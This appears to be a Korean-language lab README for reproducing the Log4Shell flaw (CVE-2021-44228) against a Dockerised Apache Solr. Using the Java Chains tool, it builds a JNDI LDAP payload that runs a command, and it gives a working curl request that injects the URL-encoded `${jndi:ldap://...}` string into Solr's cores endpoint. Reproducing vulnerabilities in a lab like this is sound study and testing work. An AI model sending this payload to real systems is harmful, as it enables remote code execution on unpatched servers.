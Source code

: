 # Apache Log4j2 JNDI 인젝션 취약점 (CVE-2021-44228)

Apache Log4j 2는 Log4j 1.x의 상위 버전으로, Logback에서 사용 가능한 많은 개선 사항을 제공하면서 Logback의 구조적 문제를 해결했습니다.

2021년 12월, Apache Log4j2에서 0-day 취약점이 발견되었습니다. Log4j의 JNDI 지원이 이름 해석을 제한하지 않았기 때문에 `rmi:` 및 `ldap:` 같은 프로토콜이 안전하지 않거나 원격 코드 실행을 허용할 수 있습니다.

## 취약점 환경 구성

### 1. Apache Solr 설치
```bash
docker compose up -d
```

서버가 시작된 후, `http://localhost:8983`에서 Apache Solr 관리자 포털에 접속할 수 있습니다.

### 2. Java Chains 설치 및 구성

Java Chains는 JNDI 페이로드를 생성하고 실행하는 도구입니다. 다음 단계로 설치합니다:

1. Java Chains 도커 이미지 실행:
```bash
docker run -d --name java-chains --network cve-2021-44228_default -p 8011:8011 javachains/javachains:latest
```

2. Java Chains 웹 인터페이스 접속:
- 브라우저에서 `http://localhost:8011` 접속
- 초기 비밀번호는 도커 로그에서 확인: `docker logs java-chains`

3. JNDI 페이로드 생성:
- JNDI Basic Payload 선택
- Command 입력란에 실행할 명령어 입력 (예: `touch /tmp/success`)
- "Generate" 버튼 클릭하여 LDAP URL 생성

## 취약점 공격

1. 생성된 LDAP URL을 사용하여 Solr에 페이로드 전송:
```bash
curl "http://localhost:8983/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A50389%2F[생성된_ID]%7D"
```

2. 명령어 실행 확인:
```bash
docker exec -it cve-2021-44228-solr-1 bash
ls -l /tmp/success
```

## 주의사항

1. Java Chains와 Solr 컨테이너가 같은 Docker 네트워크에 있어야 합니다.
2. JDK 버전이 8u191 미만인 경우에만 `rmi://` 또는 `ldap://` 프로토콜을 사용할 수 있습니다.
3. 취약점 공격 시 반드시 테스트 환경에서만 실행해야 합니다.

## 참고 자료

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649 